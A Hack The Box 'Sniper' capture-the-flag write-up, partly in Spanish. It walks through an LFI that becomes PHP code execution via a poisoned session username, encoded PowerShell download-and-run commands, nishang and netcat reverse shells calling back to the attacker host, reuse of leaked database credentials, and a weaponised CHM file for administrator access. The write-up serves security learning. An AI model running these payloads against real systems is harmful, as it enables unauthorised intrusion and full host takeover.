


+++
author = "Andrés Del Cerro"
title = "Hack The Box: Sniper Writeup | Medium"
date = "2024-08-23"
description = ""
tags = [
    "HackTheBox",
    "Sniper",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "Local File Inclusion",
    "Abusing PHP Session Temp Files",
    "Bypassing",
    "Information Leakage",
    "User Pivoting",
    "Weaponizing CHM file"
]

+++

# Hack The Box: Sniper Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Sniper"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
rustscan -a 10.129.229.6 --ulimit 5000 -g
10.129.229.6 -> [80,135,139,445,49667]
```

```shell
nmap -p80,135,139,445,49667 -sCV 10.129.229.6 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 22:30 CEST
Nmap scan report for 10.129.229.6
Host is up (0.041s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Sniper Co.
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 5h00m02s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-24T01:31:47
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.63 seconds

```

# UDP Enumeration

```shell
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.229.6 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 22:32 CEST
Nmap scan report for 10.129.229.6
Host is up.
All 1500 scanned ports on 10.129.229.6 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 2.41 seconds
```

No podemos listar contenido mediante una null session en el SMB
```shell
smbclient -L \\10.129.229.6 -N -U 'null'
session setup failed: NT_STATUS_LOGON_FAILURE
```
# HTTP Enumeration
Así se ve el sitio web.


Vemos un panel de autenticación


Al iniciar sesión...

Parece que no está construido el portal del usuario pero la sesión está iniciada.





Vemos también un blog.


## Local File Inclusion
Vemos también algo raro, podemos cambiar de idioma pero parece que se apunta a un archivo PHP en el sistema a través del parámetro `lang`


Después de probar algunos payloads de LFI para Windows, encontré que el servidor respondía al siguiente recurso del sistema.


Podemos intentar cargar un recurso remoto de nuestra máquina de atacante pero no funciona.


Me encontré [la siguiente publicación](https://www.pwny.cc/web-attacks/local-file-inclusion-lfi/lfi-to-rce) en la que te dice la ruta donde se guardan los archivos asociados a una sesión en PHP pero en Linux.


Como PHP funciona igual en Windows significa que debe de almacenarse estos datos de sesión en alguna parte del sistema.

Con una simple búsqueda en Google encontré [este post en StackOverFlow](https://stackoverflow.com/questions/37603993/php-sessions-default-save-location-for-windows)


Y parece que hemos dado con el archivo.


Y se refleja la siguiente información.


Podemos intentar crearnos un usuario en el sistema con un nombre de usuario malicioso para intentar inyectar código PHP.

Después de intentar crear una cuenta como el usuario `<?php phpinfo(); ?>` me reportaba todo el rato que el usuario era inválido.

Sin embargo si que podía crear un usuario como que es una forma válida para ejecutar comandos en PHP.
```php
<?=`powershell whoami`?>
```

Y podemos comprobar que el comando se ejecuta en el sistema.


Intentando utilizar el típico oneliner powershell de [RevShells.com](https://www.revshells.com/)


# Foothold
Por lo cual tiene que haber algún carácter que considera malicioso y en caso debe de ser `-`

Después de probar un rato intentando forjar mi propio oneliner me encontré con este post que explica una cosa importante a la hora de generar el base64.
https://nvd.codes/post/correctly-encode-powershell-payloads-for-exploits/

> PowerShell is built with dotnet, which means that strings should be Unicode encoded. Unicode in Windows-lingo means little-endian UTF-16. But when encoding the output of echo in Linux we basically have a UTF-8 encoded string. To fix this we can use iconv to convert to UTF-16LE:


Y es que el encoding de PoweShell as estar construida en .NET es UTF-16LE y no UTF-8

Podemos ver que el payload es distinto


Haciendo una prueba en local vemos que ahora si que recibimos algo...


Ahora falta una manera para poder crear un usuario con nuestro payload...

También detecté que probablemente haya una restricción en la longitud del nombre de usuario.

Así que después de un rato creé un usuario con este nombre y después ejecuté el código inyectado en el usuario a través del LFI encontrado.
```shell
echo 'wget "10.10.14.50:8081/r.ps1" -OutFile "C:\Windows\Temp\r.ps1"' | iconv -t UTF-16LE | base64 -w 0
dwBnAGUAdAAgACIAMQAwAC4AMQAwAC4AMQA0AC4ANQAwADoAOAAwADgAMQAvAHIALgBwAHMAMQAiACAALQBPAHUAdABGAGkAbABlACAAIgBDADoAXABXAGkAbgBkAG8AdwBzAFwAVABlAG0AcABcAHIALgBwAHMAMQAiAAoA
```

**No olvidar agregar el ```<?=`powershell /enc PAYLOAD`?>``` al nombre de usuario**

```shell
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.229.6 - - [23/Aug/2024 23:34:28] "GET /r.ps1 HTTP/1.1" 200 -
```

Este script es el típico `Invoke-PowerShellTcp.ps1` de `nishang` pero agregando esta línea al final del script.
```shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.50 -Port 443
```

Ahora solo falta crear el script descargado...
```shell
echo 'powershell C:\Windows\Temp\r.ps1' | iconv -t UTF-16LE | base64 -w 0
cABvAHcAZQByAHMAaABlAGwAbAAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGUAbQBwAFwAcgAuAHAAcwAxAAoA
```

```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.229.6] 49806
Windows PowerShell running as user SNIPER$ on SNIPER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\blog>
PS C:\inetpub\wwwroot\blog> whoami
nt authority\iusr
```

# User Pivoting
Vemos que hemos ganado acceso como `nt authority\iusr` , detectamos un usuario a nivel de sistema llamado `Chris`


En el archivo `C:\inetpub\wwwroot\user\db.php` encontramos unas credenciales para la base de datos.
```shell
PS C:\inetpub\wwwroot\user> type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Como está el SMB abierto con `netexec` podemos comprobar que estas credenciales son válidas
```shell
nxc smb 10.129.229.6 -u Chris -p '36mEAhz/B8xQ~2VM'
SMB         10.129.229.6    445    SNIPER           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SNIPER) (domain:Sniper) (signing:False) (SMBv1:False)
SMB         10.129.229.6    445    SNIPER           [+] Sniper\Chris:36mEAhz/B8xQ~2VM
```

Para migrar a este usuario podemos subirnos el binario de `RunasCs.exe` y mandarnos una revshell.

```shell
.\RunasCs.exe Chris "36mEAhz/B8xQ~2VM" cmd.exe -r 10.10.14.50:443

[+] Running in session 0 with process function CreateProcessWithTokenW()
[+] Using Station\Desktop: Service-0x0-3e3$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 5328 created in background.
```

```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.229.6] 49808
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
sniper\chris
```

Y podemos leer la flag de usuario
```shell
C:\Users\Chris\Desktop>type user.txt
type user.txt
6ca87a0f671c798c...
```

# Privilege Escalation
En el directorio de descargas de este usuario encontramos lo siguiente.


> Un archivo CHM (Compiled HTML Help) es un formato de archivo de ayuda desarrollado por Microsoft, comúnmente utilizado para la documentación de software. Estos archivos están diseñados para almacenar documentación en un formato compacto y de fácil acceso. Los archivos CHM fueron especialmente populares en la era de Windows 98 y continuaron siendo ampliamente usados en versiones posteriores de Windows.

En la raíz del sistema detectamos un fichero un tanto extraño llamado `Docs`


Vemos una nota que dicta lo siguiente
```
C:\Docs>type note.txt
type note.txt
Hi Chris,
	Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```

El CEO está esperando la documentación del sistema y supongo que esperará un archivo CHM, podríamos crear un CHM.

Me encontré el siguiente post sobre como conseguir ejecución de comandos a través de un archivo CHM malicioso y resulta que `nishang` tiene un script para crear un CHM malicioso.
https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e

También debemos instalar HTML Help Workshop que sirve para compilar el archivo CHM, el problema es que este archivo está eliminado a día de hoy de la documentación oficial de Windows 10.

Podemos utilizar WaybackMachine para descargar el archivo..
http://web.archive.org/web/20160201063255/http://download.microsoft.com/download/0/A/9/0A939EF6-E31C-430F-A3DF-DFAE7960D564/htmlhelp.exe

Una vez instalado podemos crear nuestro CHM malicioso...


Nos copiamos el binario de `nc.exe` y el archivo `doc.chm` en la máquina víctima 
```shell
C:\Users\Chris\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users\Chris\Desktop

08/23/2024  08:03 PM    <DIR>          .
08/23/2024  08:03 PM    <DIR>          ..
08/23/2024  08:01 PM            13,448 d573913120ef8d81e901bd7b3ae2701760008cb2.key
08/23/2024  08:01 PM            13,448 doc.chm
08/23/2024  08:03 PM            28,160 nc.exe
08/23/2024  06:27 PM                34 user.txt
               4 File(s)         55,090 bytes
               2 Dir(s)   2,414,661,632 bytes free

```

Copiamos el `nc.exe` a la ruta que hemos especificado en el payload al generar el archivo CHM
```shell
C:\Users\Chris\Desktop>copy nc.exe C:\Windows\System32\spool\drivers\color\nc.exe
copy nc.exe C:\Windows\System32\spool\drivers\color\nc.exe
        1 file(s) copied.
```

Y copiamos el archivo CHM malicioso al directorio donde estaba la nota...
```shell
C:\Users\Chris\Desktop>copy doc.chm C:\Docs\doc.chm
copy doc.chm C:\Docs\doc.chm
        1 file(s) copied.
```

Y si nos ponemos en escucha con `netcat`
```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.229.6] 49818
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
sniper\administrator
```

Podemos leer la flag de `root`
```shell
PS C:\Users\Administrator\Desktop> type root.txt
type root.txt
b7b8de1f25db0cb...
```

¡Y ya estaría!

Happy Hacking! 🚀